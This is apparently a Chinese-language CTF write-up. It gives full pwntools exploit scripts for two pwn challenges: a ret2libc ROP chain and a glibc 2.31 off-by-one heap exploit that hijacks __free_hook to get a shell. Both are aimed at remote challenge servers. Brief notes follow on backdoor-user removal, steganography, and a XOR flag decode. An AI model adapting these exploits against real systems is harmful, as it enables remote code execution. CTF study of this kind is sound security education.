


# pwn

## clock_in

没啥好说的，简简单单，ret2libc3板子一把梭

```
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
io = remote("123.56.237.38", 20488)
# io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi_ret=0x4011c5
pop_ret=0x40101a
puts_plt_addr=elf.plt['puts']
puts_got_addr=elf.got['puts']
main_addr=0x401090
payload1=b'\x00'*0x48+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(puts_plt_addr)+p64(pop_ret)+p64(main_addr)
# gdb.attach(io)
io.sendline(payload1)
# pause()
puts_addr=u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
libc_base=puts_addr-libc.symbols["puts"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search(b"/bin/sh"))
payload2 = b'\x00'*0x48+p64(pop_ret)+p64(pop_rdi_ret)+p64(binsh)+p64(system) #这里使用栈对齐
# gdb.attach(io)
io.send(payload2)
io.interactive()
```


## journey_story

非常好的题目，不过美中不足，网上有过类似的了。2.31 off by one，构造堆风水泄露libc地址，然后堆块重叠修改tcache执行hook改成system即可

```
from pwn import *
from pwncli import *
from ctypes import *
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def li(a):
    print(hex(a))
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
# def get_sb():
#     return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug():
    gdb.attach(p)

context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.31.so')
elf = ELF('./pwn')
# p = process(["/home/xudongxin/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-linux-x86-64.so.2", "/home/xudongxin/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/pwn"],env={"LD_PRELOAD":"./libc.so.6"})
p = remote("101.200.61.16", 32901)

def add(size, content):
    sla(b"option: ", b"1")
    sla(b"0xb0): ", str(hex(size)).encode())
    sla(b"racters): ", content)
def free(idx):
    sla(b"option: ", b"2")
    sla(b': ', str(idx))
def show(idx):
    sla(b"option: ", b"4")
    sla(b': ', str(idx))
def edit(idx,content):
    sla(b"option: ", b"3")
    sla(b': ', str(idx))
    sl(content)

for i in range(7):
    add(0xb0,'aaaa')
for i in range(7):
    free(i)
for i in range(6):
    add(0x28,'aaaa')#0-5
edit(0,'b'*0x28+'\xc1')
free(1)
add(0x28,'\x00')#1
show(2)
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-96-0x10-libc.sym['__malloc_hook']
print("libc_base====>"+hex(libc_base))
free_hook=libc_base+libc.sym['__free_hook']
sl(b"10")
for i in range(3):
    add(0x28, 'cccc')  # 6-8 <==>2-4
free(2)
free(3)
show(7)
p.recvuntil(b"Story 7 (size 0x28): ")
heap_base = u64(p.recv(8)) & 0xfffffffff000
log.success("heap_base====>" + hex(heap_base))

# hijack __free_hook
edit(7, p64(free_hook) + b'\x0a')


# magic = libc_base + 0x1518B0
add(0x28, '/bin/sh\x00')  # 2
add(0x28, p64(libc_base+libc.sym["system"]))  # 3
free(2)

inter()
```


## Classics

稍微懂点常识应该就会吧，把加密过程全部换成解密即可


## 删除后门用户2

后门排查，先用提权脚本扫了一遍，发现了个userdel是suid权限，然后查看一下/etc/passwd，发现backdoor，尝试删除，诶，发现删了过了一会儿又有了，写了个脚本后台一直删，发现只会过check1，应该是定时任务或者后台脚本之类的，定时任务没有权限看和改，ps -a发现个b，嗯，有点可疑，管他呢，kill了试试，欸嘿，过了，应该就是这两个会创建backdoor用户


## whitepic

下载下来没后缀，hh，识别一下发现是gif，打开啥也没有，盲猜隐写，啥也不会，扔stegslove里面看看吧，经过我精心的瞎点出来了


## EnterGame

```
cipher = [0x5E, 0x13, 0xAA, 0xD3, 0x87, 0x75, 0x2B, 0x7A, 0x1B, 0x16,
          0x04, 0xA3, 0x49, 0x7E, 0x1D, 0xD2, 0x6B, 0x5D, 0x58, 0x40,
          0x5E, 0x44, 0x63, 0x59, 0x48, 0x51, 0x0D, 0x54, 0x5E, 0x58,
          0x55, 0x58, 0xAD, 0x82, 0xAF, 0xDC, 0xE7, 0xAB, 0x58, 0x5D,
          0xCE, 0xC1]
key = [0x38, 0x7F, 0xCB, 0xB4, 0xFC, 0x46, 0x13, 0x4F, 0x22, 0x27,
       0x31, 0xC2, 0x2D, 0x53, 0x25, 0xB4, 0x58, 0x6F, 0x75, 0x74,
       0x67, 0x20, 0x53, 0x74, 0x71, 0x65, 0x6E, 0x67, 0x73, 0x68,
       0x65, 0x6E, 0x9A, 0xE4, 0x9E, 0xB8, 0x86, 0xCF, 0x69, 0x3F,
       0xAA, 0xBC]
for i in range(len(cipher)):
    print(chr(cipher[i]^key[i]),end = '')
# flag{385915ad-8f32-49d0-94c3-0067f1dad1bd}
```





